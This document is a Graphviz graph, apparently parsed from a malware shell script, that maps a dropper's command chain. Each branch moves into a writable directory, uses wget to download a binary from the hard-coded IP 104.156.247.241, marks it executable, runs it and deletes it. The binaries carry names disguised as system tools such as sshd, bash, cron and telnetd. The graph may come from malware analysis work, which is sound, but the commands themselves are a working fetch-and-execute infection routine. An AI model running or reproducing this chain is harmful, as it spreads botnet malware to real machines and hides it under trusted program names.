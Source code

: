 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://104.156.247.241/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://104.156.247.241/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://104.156.247.241/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://104.156.247.241/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://104.156.247.241/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://104.156.247.241/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://104.156.247.241/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://104.156.247.241/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://104.156.247.241/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://104.156.247.241/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://104.156.247.241/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://104.156.247.241/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://104.156.247.241/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
